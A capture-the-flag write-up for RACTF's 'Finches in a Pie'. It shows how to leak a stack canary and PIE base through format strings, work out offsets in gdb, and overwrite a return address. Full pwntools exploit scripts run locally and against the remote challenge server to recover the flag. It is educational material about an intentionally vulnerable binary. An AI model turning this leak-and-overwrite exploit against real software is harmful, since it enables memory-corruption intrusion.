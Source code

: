 # Finches In A Pie

This challenge is very similar to Finches in a Stack, so this one is more like a continuation of that writeup, so I'd advise reading that one first before reading this one. Here's the link: [Finches in a Stack](finches-in-a-stack.md)

## Protections

First, let's check the protections that this binary has using checksec:

```text
sasha@kali:~/RACTF$ pwn checksec fiap
[*] '/home/sasha/RACTF/fiap'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

So here's what we have to deal with:

* Canary: This is a protection that places a random value before a return pointer, so that if you overwrite it with an invalid value, the program crashes
* NX: This prevents us from executing our own shellcode by marking critical areas as non-executable

And a new one:

* PIE: This essentially randomizes the addresses of the functions and gadgets, making returning to functions harder

Since this binary is practically the same as `fias`, I won't go over the reversing again

## Overview

Our exploit is going to have four parts again:

* Padding, to reach the canary
* Canary, to overwrite canary, so that the program doesn't crash
* More padding, to reach the return pointer
* Return Pointer, where we point back into 'flag'

We already have the other 4 sorted, however our new challenge is to find the return pointer, due to PIE randomizing it

## Leaking PIE

Fortunately, we can also leak a PIE address with format strings, this time it's `%12$p`. However, there are some calculations that need to be made to get the base address Lets load up gdb and have a look at the functions:

```text
0x00001209  flag
```

So now we have the offset of `flag`. Let's run it with a breakpoint at say\_hi \(as that's where input is taken\):

```text
gdb-peda$ b say_hi
Breakpoint 1 at 0x1287
gdb-peda$ r
```

Let's skip to the printf which we use to leak, entering `%12$p` in the `gets`:

```text
gdb-peda$ 
0x56559000!
```

Now we need to find out what to do with this address to get the base address. Let's take a function, say the `flag` function, see where it is now after being randomized:

```text
gdb-peda$ p flag
$1 = {<text variable, no debug info>} 0x56556209 <flag>
```

And using our offset from before

> 0x00001209 We will take the offset away from the flag address, to find the base:
>
> ```text
> gdb-peda$ p/x 0x56556209 - 0x1209
> $2 = 0x56555000
> ```
>
> So that's our base address, now we do:
>
> ```text
> gdb-peda$ p/x 0x56559000 - 0x56555000
> $3 = 0x4000
> ```
>
> To find the offset of the leaked PIE address. Now, using this information, we can always find the return pointer we need

## Local exploit

Now we can create our local exploit using python3 + pwntools. We send the two format strings in the same line, separated by a `-`, so we can leak the canary and PIE at one time:

```python
from pwn import *

e = ELF("fiap")
io = e.process()

for i in range(0,10):
    io.recvline()

io.sendline("-%11$p-%12$p-")        # Leak both canary and PIE
recieved = str(io.recvline()).split("-")
canary = int(recieved[1],16)
pie = int(recieved[2],16) - 0x4000    # Gets base
log.info("Canary: " + str(hex(canary)))
log.info("PIE: " + str(hex(pie)))
io.recvline()

flag = pie + 0x1209    # Base + Flag offset

payload = b"a" * 25        # Pads upto canary
payload += p32(canary)        # Overwrites canary
payload += b'bbbbccccdddd'     # Pads upto return address
payload += p32(flag)        # Overwites return addr with addr of flag function

io.sendline(payload)
print(io.recvline().decode())
io.close()
```

## Transferring to remote

Transferring to remote is very simple once again:

```python
from pwn import *
import sys

args = sys.argv[1].split(":")
ip = args[0]
port = args[1]

io = remote(ip,port)

for i in range(0,10):
    io.recvline()

io.sendline("-%11$p-%12$p-")        # %11$lx leaks canary, %12$p leaks pie
recieved = str(io.recvline()).split("-")
canary = int(recieved[1],16)
pie = int(recieved[2],16) - 0x4000    # Leaked pie take 0x4000 results in binary base

log.info("Canary: " + str(hex(canary)))
log.info("PIE: " + str(hex(pie)))
io.recvline()

flag = pie + 0x1209

payload = b"a" * 25        # Pads upto canary
payload += p32(canary)        # Overwrites canary
payload += b'bbbbccccdddd'     # Pads upto return address
payload += p32(flag)        # Overwites return addr with addr of flag function

io.sendline(payload)
print(io.recvline().decode())
io.close()
```

Let's now run it:

```text
sasha@kali:~/RACTF$ python3 fiapremote.py 95.216.233.106:49276
[+] Opening connection to 95.216.233.106 on port 49276: Done
[*] Canary: 0x3132f200
[*] PIE: 0x565d6000
ractf{B4k1ng_4_p1E!}

[*] Closed connection to 95.216.233.106 port 49276
sasha@kali:~/RACTF$
```

Challenge done!

**ractf{B4k1ng\_4\_p1E!}**

